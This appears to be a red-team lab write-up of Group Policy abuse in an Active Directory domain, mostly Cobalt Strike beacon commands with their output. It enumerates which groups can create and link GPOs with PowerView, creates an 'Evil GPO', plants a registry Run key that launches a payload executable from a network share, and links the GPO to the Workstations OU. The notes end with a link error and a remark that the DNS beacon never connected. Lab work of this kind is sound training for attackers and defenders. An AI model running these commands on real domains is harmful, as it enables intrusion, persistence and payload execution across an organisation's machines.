 Group Policy Objects are stored in _CN=Policies,CN=System_ - principals that can create new GPOs in the domain have the "Create groupPolicyContainer objects" privilege over this object.  We can find these with PowerView's `Get-DomainObjectAcl` cmdlet by looking for those that have "CreateChild" rights on the "Group-Policy-Container", and then resolving their SIDs to readable names.

`import powerview.ps1`
```powershell
[12/12 20:22:27] beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[12/12 20:22:28] [+] host called home, sent: 16 bytes
[12/12 20:22:30] [*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[12/12 20:22:30] [+] host called home, sent: 143801 bytes
```
`powerpick Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }`
```powershell
[12/12 20:22:48] beacon> powerpick Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
[12/12 20:22:48] [*] Tasked beacon to run: Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier } (unmanaged)
[12/12 20:22:48] [+] host called home, sent: 138058 bytes
[12/12 20:22:58] [+] received output:
DEV\Developers
```
  This shows that members of the "Developers" group can create new GPOs.


Being able to create a GPO doesn't achieve anything unless it can be linked to an OU.  The ability to link a GPO to an OU is controlled on the OU itself by granting "Write gPLink" privileges.

This is also something we can find with PowerView by first getting all of the domain OUs and piping them into Get-DomainObjectAcl again.  Iterate over each one looking for instances of "WriteProperty" over "GP-Link" .

```powershell
[12/12 20:25:52] beacon> powerpick Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl
[12/12 20:25:52] [+] host called home, sent: 10 bytes
[12/12 20:25:52] [*] Tasked beacon to run: Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl (unmanaged)
[12/12 20:25:52] [+] host called home, sent: 138048 bytes
[12/12 20:26:01] [+] received output:


ObjectDN              : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : ReadProperty, WriteProperty
ObjectAceType         : GP-Link
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107


[12/12 20:26:04] [+] received output:
```

```powershell
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```
 This shows that members of the "Developers" group can link GPOs to the "Workstations" OU.

GPOs can be managed from the command line via the PowerShell RSAT modules.  These are an optional install and so usually only found on management workstations.  The `Get-Module` cmdlet will show if they are present.
```powershell
[12/12 20:27:47] beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
[12/12 20:27:47] [*] Tasked beacon to run: Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
[12/12 20:27:47] [+] host called home, sent: 453 bytes
[12/12 20:27:49] [+] received output:
#< CLIXML

Key                        Value                     
---                        -----                     
Backup-GPO                 Backup-GPO                
Block-GPInheritance        Block-GPInheritance       
Copy-GPO                   Copy-GPO                  
Get-GPInheritance          Get-GPInheritance         
Get-GPO                    Get-GPO                   
Get-GPOReport              Get-GPOReport             
Get-GPPermission           Get-GPPermission          
Get-GPPrefRegistryValue    Get-GPPrefRegistryValue   
Get-GPRegistryValue        Get-GPRegistryValue       
Get-GPResultantSetOfPolicy Get-GPResultantSetOfPolicy
Get-GPStarterGPO           Get-GPStarterGPO          
Import-GPO                 Import-GPO                
Invoke-GPUpdate            Invoke-GPUpdate           
New-GPLink                 New-GPLink                
New-GPO                    New-GPO                   
New-GPStarterGPO           New-GPStarterGPO          
Remove-GPLink              Remove-GPLink             
Remove-GPO                 Remove-GPO                
Remove-GPPrefRegistryValue Remove-GPPrefRegistryValue
Remove-GPRegistryValue     Remove-GPRegistryValue    
Rename-GPO                 Rename-GPO                
Restore-GPO                Restore-GPO               
Set-GPInheritance          Set-GPInheritance         
Set-GPLink                 Set-GPLink                
Set-GPPermission           Set-GPPermission          
Set-GPPrefRegistryValue    Set-GPPrefRegistryValue   
Set-GPRegistryValue        Set-GPRegistryValue       
Get-GPPermissions          Get-GPPermissions         
Set-GPPermissions          Set-GPPermissions        
```
Use the `New-GPO` cmdlet to create and link a new GPO.
```powershell
[12/12 20:33:34] beacon> powerpick New-GPO -Name "Evil GPO"
[12/12 20:33:34] [+] host called home, sent: 10 bytes
[12/12 20:33:34] [*] Tasked beacon to run: New-GPO -Name "Evil GPO" (unmanaged)
[12/12 20:33:34] [+] host called home, sent: 138048 bytes
[12/12 20:33:40] [+] received output:


DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\Domain Admins
Id               : 20f769f1-60e6-46e0-b9c5-c8a5cedb8f60
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 12/12/2023 8:33:38 PM
ModificationTime : 12/12/2023 8:33:38 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        : 
```
Some abuses can be implemented directly using RSAT.  For example, the `Set-GPPrefRegistryValue` cmdlet can be used to add an HKLM autorun key to the registry.
```powershell
[12/12 20:35:24] beacon> powerpick Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
[12/12 20:35:24] [+] host called home, sent: 10 bytes
[12/12 20:35:24] [*] Tasked beacon to run: Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString (unmanaged)
[12/12 20:35:24] [+] host called home, sent: 138048 bytes
[12/12 20:35:28] [+] received output:


DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\Domain Admins
Id               : 20f769f1-60e6-46e0-b9c5-c8a5cedb8f60
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 12/12/2023 8:33:38 PM
ModificationTime : 12/12/2023 8:35:26 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        : 
```
Next, apply the GPO to the target OU.
```powershell
[12/12 20:36:49] beacon> powerpick Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
[12/12 20:36:49] [*] Tasked beacon to run: Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" (unmanaged)
[12/12 20:36:49] [+] host called home, sent: 138058 bytes
[12/12 20:36:53] [+] received output:
ERROR: New-GPLink : The GPO named 'Evil GPO' is already linked to a Scope of Management with Path 
ERROR: 'OU=Workstations,DC=dev,DC=cyberbotic,DC=io'.
ERROR: At line:1 char:102
ERROR: + ... Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic, ...
ERROR: +                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ERROR:     + CategoryInfo          : InvalidArgument: (Microsoft.Group...ewGPLinkCommand:NewGPLinkCommand 
ERROR:    ) [New-GPLink], ArgumentException
ERROR:     + FullyQualifiedErrorId : UnableToCreateNewLink,Microsoft.GroupPolicy.Commands.NewGPLinkComman 
ERROR:    d
ERROR:  
```
*error here* 
* also never caught DNS beacon*